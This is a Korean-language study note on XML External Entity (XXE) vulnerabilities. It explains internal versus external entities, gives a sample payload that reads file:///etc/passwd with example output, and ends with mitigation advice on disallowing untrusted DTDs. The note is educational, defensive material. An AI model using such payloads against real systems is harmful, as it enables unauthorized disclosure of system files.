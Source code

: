 # XXE
https://bibimnews.com/entry/XML-%EC%99%B8%EB%B6%80-%EA%B0%9C%EC%B2%B4XML-External-Entity-XXE-%EC%B7%A8%EC%95%BD%EC%A0%90-OWASP-Top-10-2017-A4

https://portswigger.net/web-security/xxe

<br>

![](../img/XXE-processing.png)

<br>
XML External Entity의 줄임말로 XML 타입의 데이터 요청을 전송할 때 XML의 외부엔티티를 처리할 수 있게 설정되어 있는 경우 발생하는 취약점이다.
<br><br>
내부 엔티티는 문서 내에 값을 명시한다.
<br>

```xml
<!ENTITY A "aaa">
<!ENTITY B "bbb">

<user>&A;&B;</user>
```
<br>

외부 엔티티는 문서 외부의 URL 를 명시하여 값을 제공한다.
<br>

```xml
<!ENTITY A SYSTEM "https://www.~~~">
<!ENTITY B SYSTEM "https://www.~~~">

<user>&A;&B;</user>
```
<br>

이 외부 엔티티에서 참조하는 URL 상에 공격구문을 작성하는 것이다.
<br>

```xml
<!ENTITY A SYSTEM "file:///etc/passwd">

<user>&A;</user>
```

```xml
>>>
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
```

이처럼 LFI, RFI, Injection 등등 온갖 취약점이 발생될 우려가 있다. 기본적으로 필터링 및 보호기법이 없다는 가정 하에 그냥 쉘처럼 작동한다고 생각하면 된다.

<br>

## 대응방안
<br>
XML 문서는 외부 클라이언트와 통신할 수 있도록 만들어졌기 때문에 특정 개체만 불러오지 않도록 설정하는 것은 어렵다. 따라서 XML파서는 시스템 내부의 DTD만을 참조하도록 하고 XML내부에 선언된 DTD는 허용하지 않도록 설정해야 한다. 즉 신뢰할 수 없는 외부의 DTD는 허용하지 않고 안전하게 구성된 내부의 DTD만을 사용해야 한다. 신뢰할 수 있는 내부 DTD의 엔티티를 통해 참조할 외부 개체를 제한하는 것이다.